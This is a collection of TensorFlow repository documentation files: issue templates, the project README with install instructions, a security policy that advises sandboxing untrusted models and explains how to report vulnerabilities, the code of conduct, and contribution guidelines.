


Please go to Stack Overflow for help and support:

https://stackoverflow.com/questions/tagged/tensorflow

If you open a GitHub issue, here is our policy:

1.  It must be a bug, a feature request, or a significant problem with the
    documentation (for small docs fixes please send a PR instead).
2.  The form below must be filled out.
3.  It shouldn't be a TensorBoard issue. Those go
    [here](https://github.com/tensorflow/tensorboard/issues).

**Here's why we have that policy**: TensorFlow developers respond to issues. We want to focus on work that benefits the whole community, e.g., fixing bugs and adding features. Support only helps individuals. GitHub also notifies thousands of people when issues are filed. We want them to see you communicating an interesting problem, rather than being redirected to Stack Overflow.

------------------------

### System information

-   **Have I written custom code (as opposed to using a stock example script
    provided in TensorFlow)**:
-   **OS Platform and Distribution (e.g., Linux Ubuntu 16.04)**:
-   **Mobile device (e.g. iPhone 8, Pixel 2, Samsung Galaxy) if the issue
    happens on a mobile device**:
-   **TensorFlow installed from (source or binary)**:
-   **TensorFlow version (use command below)**:
-   **Python version**:
-   **Bazel version (if compiling from source)**:
-   **GCC/Compiler version (if compiling from source)**:
-   **CUDA/cuDNN version**:
-   **GPU model and memory**:
-   **Exact command to reproduce**:

You can collect some of this information using our environment capture script:

https://github.com/tensorflow/tensorflow/tree/master/tools/tf_env_collect.sh

You can obtain the TensorFlow version with:

```bash
python -c "import tensorflow as tf; print(tf.version.GIT_VERSION, tf.version.VERSION)"
```

### Describe the problem
Describe the problem clearly here. Be sure to convey here why it's a bug in TensorFlow or a feature request.

### Source code / logs
Include any logs or source code that would be helpful to diagnose the problem. If including tracebacks, please include the full traceback. Large logs and files should be attached. Try to provide a reproducible test case that is the bare minimum necessary to generate the problem.
If you open a GitHub Issue, here is our policy:

1.  It must be a bug/performance issue or a feature request or a build issue or
    a documentation issue (for small doc fixes please send a PR instead).
1.  Make sure the Issue Template is filled out.
1.  The issue should be related to the repo it is created in.

**Here's why we have this policy:** We want to focus on the work that benefits
the whole community, e.g., fixing bugs and adding features. Individual support
should be sought on Stack Overflow or other non-GitHub channels. It helps us to
address bugs and feature requests in a timely manner.
<div align="center">
  
</div>

[](https://badge.fury.io/py/tensorflow)
[](https://badge.fury.io/py/tensorflow)
[](https://doi.org/10.5281/zenodo.4724125)

**`Documentation`** |
------------------- |
[](https://www.tensorflow.org/api_docs/) |

[TensorFlow](https://www.tensorflow.org/) is an end-to-end open source platform
for machine learning. It has a comprehensive, flexible ecosystem of
[tools](https://www.tensorflow.org/resources/tools),
[libraries](https://www.tensorflow.org/resources/libraries-extensions), and
[community](https://www.tensorflow.org/community) resources that lets
researchers push the state-of-the-art in ML and developers easily build and
deploy ML-powered applications.

TensorFlow was originally developed by researchers and engineers working on the
Google Brain team within Google's Machine Intelligence Research organization to
conduct machine learning and deep neural networks research. The system is
general enough to be applicable in a wide variety of other domains, as well.

TensorFlow provides stable [Python](https://www.tensorflow.org/api_docs/python)
and [C++](https://www.tensorflow.org/api_docs/cc) APIs, as well as
non-guaranteed backward compatible API for
[other languages](https://www.tensorflow.org/api_docs).

Keep up-to-date with release announcements and security updates by subscribing
to
[announce@tensorflow.org](https://groups.google.com/a/tensorflow.org/forum/#!forum/announce).
See all the [mailing lists](https://www.tensorflow.org/community/forums).

## Install

See the [TensorFlow install guide](https://www.tensorflow.org/install) for the
[pip package](https://www.tensorflow.org/install/pip), to
[enable GPU support](https://www.tensorflow.org/install/gpu), use a
[Docker container](https://www.tensorflow.org/install/docker), and
[build from source](https://www.tensorflow.org/install/source).

To install the current release, which includes support for
[CUDA-enabled GPU cards](https://www.tensorflow.org/install/gpu) *(Ubuntu and
Windows)*:

```
$ pip install tensorflow
```

A smaller CPU-only package is also available:

```
$ pip install tensorflow-cpu
```

To update TensorFlow to the latest version, add `--upgrade` flag to the above
commands.

*Nightly binaries are available for testing using the
[tf-nightly](https://pypi.python.org/pypi/tf-nightly) and
[tf-nightly-cpu](https://pypi.python.org/pypi/tf-nightly-cpu) packages on PyPi.*

#### *Try your first TensorFlow program*

```shell
$ python
```

```python
>>> import tensorflow as tf
>>> tf.add(1, 2).numpy()
3
>>> hello = tf.constant('Hello, TensorFlow!')
>>> hello.numpy()
b'Hello, TensorFlow!'
```

For more examples, see the
[TensorFlow tutorials](https://www.tensorflow.org/tutorials/).

## Contribution guidelines

**If you want to contribute to TensorFlow, be sure to review the
[contribution guidelines](CONTRIBUTING.md). This project adheres to TensorFlow's
[code of conduct](CODE_OF_CONDUCT.md). By participating, you are expected to
uphold this code.**

**We use [GitHub issues](https://github.com/tensorflow/tensorflow/issues) for
tracking requests and bugs, please see
[TensorFlow Discuss](https://groups.google.com/a/tensorflow.org/forum/#!forum/discuss)
for general questions and discussion, and please direct specific questions to
[Stack Overflow](https://stackoverflow.com/questions/tagged/tensorflow).**

The TensorFlow project strives to abide by generally accepted best practices in
open-source software development:

[](https://bugs.chromium.org/p/oss-fuzz/issues/list?sort=-opened&can=1&q=proj:tensorflow)
[](https://bestpractices.coreinfrastructure.org/projects/1486)
[](CODE_OF_CONDUCT.md)

## Continuous build status

You can find more community-supported platforms and configurations in the
[TensorFlow SIG Build community builds table](https://github.com/tensorflow/build#community-supported-tensorflow-builds).

### Official Builds

Build Type                    | Status                                                                                                                                                                           | Artifacts
----------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------
**Linux CPU**                 | [](https://storage.googleapis.com/tensorflow-kokoro-build-badges/ubuntu-cc.html)           | [PyPI](https://pypi.org/project/tf-nightly/)
**Linux GPU**                 | [](https://storage.googleapis.com/tensorflow-kokoro-build-badges/ubuntu-gpu-py3.html) | [PyPI](https://pypi.org/project/tf-nightly-gpu/)
**Linux XLA**                 | [](https://storage.googleapis.com/tensorflow-kokoro-build-badges/ubuntu-xla.html)         | TBA
**macOS**                     | [](https://storage.googleapis.com/tensorflow-kokoro-build-badges/macos-py2-cc.html)     | [PyPI](https://pypi.org/project/tf-nightly/)
**Windows CPU**               | [](https://storage.googleapis.com/tensorflow-kokoro-build-badges/windows-cpu.html)       | [PyPI](https://pypi.org/project/tf-nightly/)
**Windows GPU**               | [](https://storage.googleapis.com/tensorflow-kokoro-build-badges/windows-gpu.html)       | [PyPI](https://pypi.org/project/tf-nightly-gpu/)
**Android**                   | [](https://storage.googleapis.com/tensorflow-kokoro-build-badges/android.html)               | [Download](https://bintray.com/google/tensorflow/tensorflow/_latestVersion)
**Raspberry Pi 0 and 1**      | [](https://storage.googleapis.com/tensorflow-kokoro-build-badges/rpi01-py3.html)           | [Py3](https://storage.googleapis.com/tensorflow-nightly/tensorflow-1.10.0-cp34-none-linux_armv6l.whl)
**Raspberry Pi 2 and 3**      | [](https://storage.googleapis.com/tensorflow-kokoro-build-badges/rpi23-py3.html)           | [Py3](https://storage.googleapis.com/tensorflow-nightly/tensorflow-1.10.0-cp34-none-linux_armv7l.whl)
**Libtensorflow MacOS CPU**   | Status Temporarily Unavailable                                                                                                                                                   | [Nightly Binary](https://storage.googleapis.com/libtensorflow-nightly/prod/tensorflow/release/macos/latest/macos_cpu_libtensorflow_binaries.tar.gz) [Official GCS](https://storage.googleapis.com/tensorflow/)
**Libtensorflow Linux CPU**   | Status Temporarily Unavailable                                                                                                                                                   | [Nightly Binary](https://storage.googleapis.com/libtensorflow-nightly/prod/tensorflow/release/ubuntu_16/latest/cpu/ubuntu_cpu_libtensorflow_binaries.tar.gz) [Official GCS](https://storage.googleapis.com/tensorflow/)
**Libtensorflow Linux GPU**   | Status Temporarily Unavailable                                                                                                                                                   | [Nightly Binary](https://storage.googleapis.com/libtensorflow-nightly/prod/tensorflow/release/ubuntu_16/latest/gpu/ubuntu_gpu_libtensorflow_binaries.tar.gz) [Official GCS](https://storage.googleapis.com/tensorflow/)
**Libtensorflow Windows CPU** | Status Temporarily Unavailable                                                                                                                                                   | [Nightly Binary](https://storage.googleapis.com/libtensorflow-nightly/prod/tensorflow/release/windows/latest/cpu/windows_cpu_libtensorflow_binaries.tar.gz) [Official GCS](https://storage.googleapis.com/tensorflow/)
**Libtensorflow Windows GPU** | Status Temporarily Unavailable                                                                                                                                                   | [Nightly Binary](https://storage.googleapis.com/libtensorflow-nightly/prod/tensorflow/release/windows/latest/gpu/windows_gpu_libtensorflow_binaries.tar.gz) [Official GCS](https://storage.googleapis.com/tensorflow/)

## Resources

*   [TensorFlow.org](https://www.tensorflow.org)
*   [TensorFlow Tutorials](https://www.tensorflow.org/tutorials/)
*   [TensorFlow Official Models](https://github.com/tensorflow/models/tree/master/official)
*   [TensorFlow Examples](https://github.com/tensorflow/examples)
*   [DeepLearning.AI TensorFlow Developer Professional Certificate](https://www.coursera.org/specializations/tensorflow-in-practice)
*   [TensorFlow: Data and Deployment from Coursera](https://www.coursera.org/specializations/tensorflow-data-and-deployment)
*   [Getting Started with TensorFlow 2 from Coursera](https://www.coursera.org/learn/getting-started-with-tensor-flow2)
*   [TensorFlow: Advanced Techniques from Coursera](https://www.coursera.org/specializations/tensorflow-advanced-techniques)
*   [TensorFlow 2 for Deep Learning Specialization from Coursera](https://www.coursera.org/specializations/tensorflow2-deeplearning)
*   [Intro to TensorFlow for A.I, M.L, and D.L from Coursera](https://www.coursera.org/learn/introduction-tensorflow)
*   [Intro to TensorFlow for Deep Learning from Udacity](https://www.udacity.com/course/intro-to-tensorflow-for-deep-learning--ud187)
*   [Introduction to TensorFlow Lite from Udacity](https://www.udacity.com/course/intro-to-tensorflow-lite--ud190)
*   [Machine Learning with TensorFlow on GCP](https://www.coursera.org/specializations/machine-learning-tensorflow-gcp)
*   [TensorFlow Codelabs](https://codelabs.developers.google.com/?cat=TensorFlow)
*   [TensorFlow Blog](https://blog.tensorflow.org)
*   [Learn ML with TensorFlow](https://www.tensorflow.org/resources/learn-ml)
*   [TensorFlow Twitter](https://twitter.com/tensorflow)
*   [TensorFlow YouTube](https://www.youtube.com/channel/UC0rqucBdTuFTjJiefW5t-IQ)
*   [TensorFlow model optimization roadmap](https://www.tensorflow.org/model_optimization/guide/roadmap)
*   [TensorFlow White Papers](https://www.tensorflow.org/about/bib)
*   [TensorBoard Visualization Toolkit](https://github.com/tensorflow/tensorboard)

Learn more about the
[TensorFlow community](https://www.tensorflow.org/community) and how to
[contribute](https://www.tensorflow.org/community/contribute).

## License

[Apache License 2.0](LICENSE)
# Using TensorFlow Securely

This document discusses how to safely deal with untrusted programs (models or
model parameters), and input data. Below, we also provide guidelines on how to
report vulnerabilities in TensorFlow.

## TensorFlow models are programs

TensorFlow's runtime system interprets and executes programs. What machine
learning practitioners term
[**models**](https://developers.google.com/machine-learning/glossary/#model) are
expressed as programs that TensorFlow executes.  TensorFlow programs are encoded
as computation
[**graphs**](https://developers.google.com/machine-learning/glossary/#graph).
The model's parameters are often stored separately in **checkpoints**.

At runtime, TensorFlow executes the computation graph using the parameters
provided. Note that the behavior of the computation graph may change
depending on the parameters provided. TensorFlow itself is not a sandbox. When
executing the computation graph, TensorFlow may read and write files, send and
receive data over the network, and even spawn additional processes. All these
tasks are performed with the permissions of the TensorFlow process. Allowing
for this flexibility makes for a powerful machine learning platform,
but it has implications for security.

The computation graph may also accept **inputs**. Those inputs are the
data you supply to TensorFlow to train a model, or to use a model to run
inference on the data.

**TensorFlow models are programs, and need to be treated as such from a security
perspective.**

## Running untrusted models

As a general rule: **Always** execute untrusted models inside a sandbox (e.g.,
[nsjail](https://github.com/google/nsjail)).

There are several ways in which a model could become untrusted. Obviously, if an
untrusted party supplies TensorFlow kernels, arbitrary code may be executed.
The same is true if the untrusted party provides Python code, such as the
Python code that generates TensorFlow graphs.

Even if the untrusted party only supplies the serialized computation
graph (in form of a `GraphDef`, `SavedModel`, or equivalent on-disk format), the
set of computation primitives available to TensorFlow is powerful enough that
you should assume that the TensorFlow process effectively executes arbitrary
code. One common solution is to allow only a few safe Ops. While this is
possible in theory, we still recommend you sandbox the execution.

It depends on the computation graph whether a user provided checkpoint is safe.
It is easily possible to create computation graphs in which malicious
checkpoints can trigger unsafe behavior. For example, consider a graph that
contains a `tf.cond` depending on the value of a `tf.Variable`. One branch of
the `tf.cond` is harmless, but the other is unsafe. Since the `tf.Variable` is
stored in the checkpoint, whoever provides the checkpoint now has the ability to
trigger unsafe behavior, even though the graph is not under their control.

In other words, graphs can contain vulnerabilities of their own. To allow users
to provide checkpoints to a model you run on their behalf (e.g., in order to
compare model quality for a fixed model architecture), you must carefully audit
your model, and we recommend you run the TensorFlow process in a sandbox.

## Accepting untrusted Inputs

It is possible to write models that are secure in a sense that they can safely
process untrusted inputs assuming there are no bugs. There are two main reasons
to not rely on this: First, it is easy to write models which must not be exposed
to untrusted inputs, and second, there are bugs in any software system of
sufficient complexity. Letting users control inputs could allow them to trigger
bugs either in TensorFlow or in dependent libraries.

In general, it is good practice to isolate parts of any system which is exposed
to untrusted (e.g., user-provided) inputs in a sandbox.

A useful analogy to how any TensorFlow graph is executed is any interpreted
programming language, such as Python. While it is possible to write secure
Python code which can be exposed to user supplied inputs (by, e.g., carefully
quoting and sanitizing input strings, size-checking input blobs, etc.), it is
very easy to write Python programs which are insecure. Even secure Python code
could be rendered insecure by a bug in the Python interpreter, or in a bug in a
Python library used (e.g.,
[this one](https://www.cvedetails.com/cve/CVE-2017-12852/)).

## Running a TensorFlow server

TensorFlow is a platform for distributed computing, and as such there is a
TensorFlow server (`tf.train.Server`). **The TensorFlow server is meant for
internal communication only. It is not built for use in an untrusted network.**

For performance reasons, the default TensorFlow server does not include any
authorization protocol and sends messages unencrypted. It accepts connections
from anywhere, and executes the graphs it is sent without performing any checks.
Therefore, if you run a `tf.train.Server` in your network, anybody with
access to the network can execute what you should consider arbitrary code with
the privileges of the process running the `tf.train.Server`.

When running distributed TensorFlow, you must isolate the network in which the
cluster lives. Cloud providers provide instructions for setting up isolated
networks, which are sometimes branded as "virtual private cloud." Refer to the
instructions for
[GCP](https://cloud.google.com/compute/docs/networks-and-firewalls) and
[AWS](https://aws.amazon.com/vpc/)) for details.

Note that `tf.train.Server` is different from the server created by
`tensorflow/serving` (the default binary for which is called `ModelServer`).
By default, `ModelServer` also has no built-in mechanism for authentication.
Connecting it to an untrusted network allows anyone on this network to run the
graphs known to the `ModelServer`. This means that an attacker may run
graphs using untrusted inputs as described above, but they would not be able to
execute arbitrary graphs. It is possible to safely expose a `ModelServer`
directly to an untrusted network, **but only if the graphs it is configured to
use have been carefully audited to be safe**.

Similar to best practices for other servers, we recommend running any
`ModelServer` with appropriate privileges (i.e., using a separate user with
reduced permissions). In the spirit of defense in depth, we recommend
authenticating requests to any TensorFlow server connected to an untrusted
network, as well as sandboxing the server to minimize the adverse effects of
any breach.

## Vulnerabilities in TensorFlow

TensorFlow is a large and complex system. It also depends on a large set of
third party libraries (e.g., `numpy`, `libjpeg-turbo`, PNG parsers, `protobuf`).
It is possible that TensorFlow or its dependent libraries contain
vulnerabilities that would allow triggering unexpected or dangerous behavior
with specially crafted inputs.

### What is a vulnerability?

Given TensorFlow's flexibility, it is possible to specify computation graphs
which exhibit unexpected or unwanted behavior. The fact that TensorFlow models
can perform arbitrary computations means that they may read and write files,
communicate via the network, produce deadlocks and infinite loops, or run out
of memory. It is only when these behaviors are outside the specifications of the
operations involved that such behavior is a vulnerability.

A `FileWriter` writing a file is not unexpected behavior and therefore is not a
vulnerability in TensorFlow. A `MatMul` allowing arbitrary binary code execution
**is** a vulnerability.

This is more subtle from a system perspective. For example, it is easy to cause
a TensorFlow process to try to allocate more memory than available by specifying
a computation graph containing an ill-considered `tf.tile` operation. TensorFlow
should exit cleanly in this case (it would raise an exception in Python, or
return an error `Status` in C++). However, if the surrounding system is not
expecting the possibility, such behavior could be used in a denial of service
attack (or worse). Because TensorFlow behaves correctly, this is not a
vulnerability in TensorFlow (although it would be a vulnerability of this
hypothetical system).

As a general rule, it is incorrect behavior for TensorFlow to access memory it
does not own, or to terminate in an unclean way. Bugs in TensorFlow that lead to
such behaviors constitute a vulnerability.

One of the most critical parts of any system is input handling. If malicious
input can trigger side effects or incorrect behavior, this is a bug, and likely
a vulnerability.

### Reporting vulnerabilities

Please email reports about any security related issues you find to
`security@tensorflow.org`. This mail is delivered to a small security team. Your
email will be acknowledged within one business day, and you'll receive a more
detailed response to your email within 7 days indicating the next steps in
handling your report. For critical problems, you may encrypt your report (see
below).

Please use a descriptive subject line for your report email. After the initial
reply to your report, the security team will endeavor to keep you informed of
the progress being made towards a fix and announcement.

In addition, please include the following information along with your report:

* Your name and affiliation (if any).
* A description of the technical details of the vulnerabilities. It is very
  important to let us know how we can reproduce your findings.
* An explanation who can exploit this vulnerability, and what they gain when
  doing so -- write an attack scenario. This will help us evaluate your report
  quickly, especially if the issue is complex.
* Whether this vulnerability public or known to third parties. If it is, please
  provide details.

If you believe that an existing (public) issue is security-related, please send
an email to `security@tensorflow.org`. The email should include the issue ID and
a short description of why it should be handled according to this security
policy.

Once an issue is reported, TensorFlow uses the following disclosure process:

* When a report is received, we confirm the issue and determine its severity.
* If we know of specific third-party services or software based on TensorFlow
  that require mitigation before publication, those projects will be notified.
* An advisory is prepared (but not published) which details the problem and
  steps for mitigation.
* The vulnerability is fixed and potential workarounds are identified.
* Wherever possible, the fix is also prepared for the branches corresponding to
  all releases of TensorFlow at most one year old. We will attempt to commit
  these fixes as soon as possible, and as close together as possible.
* Patch releases are published for all fixed released versions, a
  notification is sent to discuss@tensorflow.org, and the advisory is published.

Note that we mostly do patch releases for security reasons and each version of
TensorFlow is supported for only 1 year after the release.

Past security advisories are listed below. We credit reporters for identifying
security issues, although we keep your name confidential if you request it.

#### Encryption key for `security@tensorflow.org`

If your disclosure is extremely sensitive, you may choose to encrypt your
report using the key below. Please only use this for critical security
reports.

```
-----BEGIN PGP PUBLIC KEY BLOCK-----

mQENBFpqdzwBCADTeAHLNEe9Vm77AxhmGP+CdjlY84O6DouOCDSq00zFYdIU/7aI
LjYwhEmDEvLnRCYeFGdIHVtW9YrVktqYE9HXVQC7nULU6U6cvkQbwHCdrjaDaylP
aJUXkNrrxibhx9YYdy465CfusAaZ0aM+T9DpcZg98SmsSml/HAiiY4mbg/yNVdPs
SEp/Ui4zdIBNNs6at2gGZrd4qWhdM0MqGJlehqdeUKRICE/mdedXwsWLM8AfEA0e
OeTVhZ+EtYCypiF4fVl/NsqJ/zhBJpCx/1FBI1Uf/lu2TE4eOS1FgmIqb2j4T+jY
e+4C8kGB405PAC0n50YpOrOs6k7fiQDjYmbNABEBAAG0LVRlbnNvckZsb3cgU2Vj
dXJpdHkgPHNlY3VyaXR5QHRlbnNvcmZsb3cub3JnPokBTgQTAQgAOBYhBEkvXzHm
gOJBnwP4Wxnef3wVoM2yBQJaanc8AhsDBQsJCAcCBhUKCQgLAgQWAgMBAh4BAheA
AAoJEBnef3wVoM2yNlkIAICqetv33MD9W6mPAXH3eon+KJoeHQHYOuwWfYkUF6CC
o+X2dlPqBSqMG3bFuTrrcwjr9w1V8HkNuzzOJvCm1CJVKaxMzPuXhBq5+DeT67+a
T/wK1L2R1bF0gs7Pp40W3np8iAFEh8sgqtxXvLGJLGDZ1Lnfdprg3HciqaVAiTum
HBFwszszZZ1wAnKJs5KVteFN7GSSng3qBcj0E0ql2nPGEqCVh+6RG/TU5C8gEsEf
3DX768M4okmFDKTzLNBm+l08kkBFt+P43rNK8dyC4PXk7yJa93SmS/dlK6DZ16Yw
2FS1StiZSVqygTW59rM5XNwdhKVXy2mf/RtNSr84gSi5AQ0EWmp3PAEIALInfBLR
N6fAUGPFj+K3za3PeD0fWDijlC9f4Ety/icwWPkOBdYVBn0atzI21thPRbfuUxfe
zr76xNNrtRRlbDSAChA1J5T86EflowcQor8dNC6fS+oHFCGeUjfEAm16P6mGTo0p
osdG2XnnTHOOEFbEUeWOwR/zT0QRaGGknoy2pc4doWcJptqJIdTl1K8xyBieik/b
nSoClqQdZJa4XA3H9G+F4NmoZGEguC5GGb2P9NHYAJ3MLHBHywZip8g9oojIwda+
OCLL4UPEZ89cl0EyhXM0nIAmGn3Chdjfu3ebF0SeuToGN8E1goUs3qSE77ZdzIsR
BzZSDFrgmZH+uP0AEQEAAYkBNgQYAQgAIBYhBEkvXzHmgOJBnwP4Wxnef3wVoM2y
BQJaanc8AhsMAAoJEBnef3wVoM2yX4wIALcYZbQhSEzCsTl56UHofze6C3QuFQIH
J4MIKrkTfwiHlCujv7GASGU2Vtis5YEyOoMidUVLlwnebE388MmaJYRm0fhYq6lP
A3vnOCcczy1tbo846bRdv012zdUA+wY+mOITdOoUjAhYulUR0kiA2UdLSfYzbWwy
7Obq96Jb/cPRxk8jKUu2rqC/KDrkFDtAtjdIHh6nbbQhFuaRuWntISZgpIJxd8Bt
Gwi0imUVd9m9wZGuTbDGi6YTNk0GPpX5OMF5hjtM/objzTihSw9UN+65Y/oSQM81
v//Fw6ZeY+HmRDFdirjD7wXtIuER4vqCryIqR6Xe9X8oJXz9L/Jhslc=
=CDME
-----END PGP PUBLIC KEY BLOCK-----
```

### Known Vulnerabilities

For a list of known vulnerabilities and security advisories for TensorFlow,
[click here](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/README.md).
# TensorFlow Code of Conduct

In the interest of fostering an open and welcoming environment, we as
contributors and maintainers pledge to make participation in our project and our
community a harassment-free experience for everyone, regardless of age, body
size, disability, ethnicity, gender identity and expression, level of
experience, nationality, personal appearance, race, religion, or sexual identity
and orientation.

## Our Standards

Examples of behavior that contributes to creating a positive environment include:

*   Using welcoming and inclusive language.
*   Being respectful of differing viewpoints and experiences.
*   Gracefully accepting constructive criticism.
*   Focusing on what is best for the community.
*   Showing empathy towards other community members.

Examples of unacceptable behavior by participants include:

*   The use of sexualized language or imagery and unwelcome sexual attention or
    advances.
*   Trolling, insulting/derogatory comments, and personal or political attacks.
*   Public or private harassment.
*   Publishing others' private information, such as a physical or electronic
    address, without explicit permission.
*   Conduct which could reasonably be considered inappropriate for the forum in
    which it occurs.

All TensorFlow forums and spaces are meant for professional interactions, and any behavior which could reasonably be considered inappropriate in a professional setting is unacceptable.


## Our Responsibilities

Project maintainers are responsible for clarifying the standards of acceptable behavior and are expected to take appropriate and fair corrective action in response to any instances of unacceptable behavior.

Project maintainers have the right and responsibility to remove, edit, or reject comments, commits, code, wiki edits, issues, and other contributions that are not aligned to this Code of Conduct, or to ban temporarily or permanently any contributor for other behaviors that they deem inappropriate, threatening, offensive, or harmful.


## Scope

This Code of Conduct applies to all content on tensorflow.org, TensorFlow’s GitHub organization, or any other official TensorFlow web presence allowing for community interactions, as well as at all official TensorFlow events, whether offline or online.

The Code of Conduct also applies within project spaces and in public spaces whenever an individual is representing TensorFlow or its community. Examples of representing a project or community include using an official project e-mail address, posting via an official social media account, or acting as an appointed or de facto representative at an online or offline event. 


## Conflict Resolution

Conflicts in an open source project can take many forms, from someone having a bad day and using harsh and hurtful language in the issue queue, to more serious instances such as sexist/racist statements or threats of violence, and everything in between.

If the behavior is threatening or harassing, or for other reasons requires immediate escalation, please see below.

However, for the vast majority of issues, we aim to empower individuals to first resolve conflicts themselves, asking for help when needed, and only after that fails to escalate further. This approach gives people more control over the outcome of their dispute. 

If you are experiencing or witnessing conflict, we ask you to use the following escalation strategy to address the conflict:

1.  Address the perceived conflict directly with those involved, preferably in a
    real-time medium.
2.  If this fails, get a third party (e.g. a mutual friend, and/or someone with
    background on the issue, but not involved in the conflict) to intercede.
3.  If you are still unable to resolve the conflict, and you believe it rises to
    harassment or another code of conduct violation, report it.

## Reporting Violations

Violations of the Code of Conduct can be reported to TensorFlow’s Project Stewards, Thea Lamkin (thealamkin@google.com) and Joana Carrasqueira (joanafilipa@google.com). The Project Steward will determine whether the Code of Conduct was violated, and will issue an appropriate sanction, possibly including a written warning or expulsion from the project, project sponsored spaces, or project forums. We ask that you make a good-faith effort to resolve your conflict via the conflict resolution policy before submitting a report.

Violations of the Code of Conduct can occur in any setting, even those unrelated to the project. We will only consider complaints about conduct that has occurred within one year of the report.


## Enforcement

If the Project Stewards receive a report alleging a violation of the Code of Conduct, the Project Stewards will notify the accused of the report, and provide them an opportunity to discuss the report before a sanction is issued. The Project Stewards will do their utmost to keep the reporter anonymous. If the act is ongoing (such as someone engaging in harassment), or involves a threat to anyone's safety (e.g. threats of violence), the Project Stewards may issue sanctions without notice.


## Attribution

This Code of Conduct is adapted from the Contributor Covenant, version 1.4, available at https://contributor-covenant.org/version/1/4, and includes some aspects of the Geek Feminism Code of Conduct and the Drupal Code of Conduct.
# Contributing guidelines

## Pull Request Checklist

Before sending your pull requests, make sure you do the following:

-   Read the [contributing guidelines](CONTRIBUTING.md).
-   Read the [Code of Conduct](CODE_OF_CONDUCT.md).
-   Ensure you have signed the
    [Contributor License Agreement (CLA)](https://cla.developers.google.com/).
-   Check if your changes are consistent with the
    [guidelines](#general-guidelines-and-philosophy-for-contribution).
-   Changes are consistent with the [Coding Style](#c-coding-style).
-   Run the [unit tests](#running-unit-tests).

## How to become a contributor and submit your own code

### Contributor License Agreements

We'd love to accept your patches! Before we can take them, we have to jump a couple of legal hurdles.

Please fill out either the individual or corporate Contributor License Agreement (CLA).

  * If you are an individual writing original source code and you're sure you own the intellectual property, then you'll need to sign an [individual CLA](https://code.google.com/legal/individual-cla-v1.0.html).
  * If you work for a company that wants to allow you to contribute your work, then you'll need to sign a [corporate CLA](https://code.google.com/legal/corporate-cla-v1.0.html).

Follow either of the two links above to access the appropriate CLA and instructions for how to sign and return it. Once we receive it, we'll be able to accept your pull requests.

***NOTE***: Only original source code from you and other people that have signed the CLA can be accepted into the main repository.

### Contributing code

If you have improvements to TensorFlow, send us your pull requests! For those
just getting started, Github has a
[how to](https://help.github.com/articles/using-pull-requests/).

TensorFlow team members will be assigned to review your pull requests. Once the
pull requests are approved and pass continuous integration checks, a TensorFlow
team member will apply `ready to pull` label to your change. This means we are
working on getting your pull request submitted to our internal repository. After
the change has been submitted internally, your pull request will be merged
automatically on GitHub.

If you want to contribute, start working through the TensorFlow codebase,
navigate to the
[Github "issues" tab](https://github.com/tensorflow/tensorflow/issues) and start
looking through interesting issues. If you are not sure of where to start, then
start by trying one of the smaller/easier issues here i.e.
[issues with the "good first issue" label](https://github.com/tensorflow/tensorflow/labels/good%20first%20issue)
and then take a look at the
[issues with the "contributions welcome" label](https://github.com/tensorflow/tensorflow/labels/stat%3Acontributions%20welcome).
These are issues that we believe are particularly well suited for outside
contributions, often because we probably won't get to them right now. If you
decide to start on an issue, leave a comment so that other people know that
you're working on it. If you want to help out, but not alone, use the issue
comment thread to coordinate.

### Contribution guidelines and standards

Before sending your pull request for
[review](https://github.com/tensorflow/tensorflow/pulls),
make sure your changes are consistent with the guidelines and follow the
TensorFlow coding style.

#### General guidelines and philosophy for contribution

*   Include unit tests when you contribute new features, as they help to a)
    prove that your code works correctly, and b) guard against future breaking
    changes to lower the maintenance cost.
*   Bug fixes also generally require unit tests, because the presence of bugs
    usually indicates insufficient test coverage.
*   Keep API compatibility in mind when you change code in core TensorFlow,
    e.g., code in
    [tensorflow/core](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/core)
    and
    [tensorflow/python](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/python).
    TensorFlow has passed version 1.0 and hence cannot make
    non-backward-compatible API changes without a major release. Reviewers of
    your pull request will comment on any API compatibility issues
    [following API review practices](https://github.com/tensorflow/community/blob/master/governance/api-reviews.md).
*   When you contribute a new feature to TensorFlow, the maintenance burden is
    (by default) transferred to the TensorFlow team. This means that the benefit
    of the contribution must be compared against the cost of maintaining the
    feature.
*   Full new features (e.g., a new op implementing a cutting-edge algorithm)
    typically will live in
    [tensorflow/addons](https://github.com/tensorflow/addons) to get some
    airtime before a decision is made regarding whether they are to be migrated
    to the core.
*   As every PR requires several CPU/GPU hours of CI testing, we discourage
    submitting PRs to fix one typo, one warning,etc. We recommend fixing the
    same issue at the file level at least (e.g.: fix all typos in a file, fix
    all compiler warning in a file, etc.)
*   Tests should follow the
    [testing best practices](https://www.tensorflow.org/community/contribute/tests)
    guide.

#### License

Include a license at the top of new files.

* [C/C++ license example](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/framework/op.cc#L1)
* [Python license example](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/ops/nn.py#L1)
